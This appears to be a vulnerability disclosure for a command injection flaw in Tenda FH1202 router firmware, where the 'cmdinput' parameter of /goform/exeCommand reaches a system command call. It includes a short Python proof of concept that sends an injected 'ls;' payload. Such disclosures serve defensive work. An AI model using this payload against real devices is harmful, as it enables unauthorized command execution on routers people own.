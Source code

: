 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

In the Tenda FH1202 V1.2.0.14(408) firmware, we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.

![image-20240407163859236](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163859236.png)

![image-20240407163914599](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163914599.png)

## POC

```python
import requests
IP = "192.168.84.102"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240407162830240](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407162830240.png)
